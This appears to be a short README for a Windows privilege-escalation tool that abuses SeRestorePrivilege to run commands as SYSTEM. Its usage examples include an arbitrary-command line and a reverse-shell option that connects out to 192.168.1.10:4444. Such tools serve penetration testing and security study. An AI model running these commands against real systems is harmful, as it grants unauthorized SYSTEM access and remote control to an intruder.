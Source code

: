 # SeRestoreAbuse with Reverse shell

Executes a command as SYSTEM when SeRestorePrivilege is assigned. In case it's disabled, the program will enable it for you.

Usage: SeRestoreAbuse.exe "cmd /c ..."

```powershell
Usage:
  SeRestoreAbuse.exe <custom_payload>
  SeRestoreAbuse.exe -revshell <IP:PORT>

Examples:
  SeRestoreAbuse.exe "cmd /c whoami > C:\test.txt"
  SeRestoreAbuse.exe -revshell 192.168.1.10:4444
 ```
